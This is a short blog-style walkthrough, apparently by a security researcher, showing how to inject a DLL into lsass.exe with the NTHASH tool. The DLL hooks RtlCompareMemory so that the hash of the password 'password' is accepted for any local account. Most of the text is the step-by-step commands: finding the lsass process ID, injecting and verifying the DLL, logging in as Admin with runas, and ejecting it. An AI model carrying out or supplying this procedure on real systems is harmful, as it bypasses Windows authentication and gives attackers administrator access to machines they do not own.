 For fun and (no) profit : lets hook rtlcomparememory in lsass.exe.
Indeed, at some point, windows will need to compare a (md4) hash of your provided password with the hash of the password in the local sam database.
Definition of rtlcomparememory is here : https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-rtlcomparememory .
So lets hook rtlcomparememory, and if 'password' (or rather the md4 hash) is provided, then lets return "true".

NTHASH will inject/eject the dll in lsass for you.

Lets retrieve the pid of lsass : nthash-win64 /enumproc | findstr lsass

NTHASH-win64.exe /inject /pid:808 /binary:c:\temp\hook-win64.dll

optionally, check that our dll as been injected : NTHASH-win64.exe /enummod /pid:808 | findstr hook .

test runas /user:Admin cmd (provide "password" here as password when prompted) : you win!

NTHASH-win64.exe /eject /pid:808 /binary:hook-win64.dll

optionally, check that our dll as been ejected : NTHASH-win64.exe /enummod /pid:808 | findstr hook .
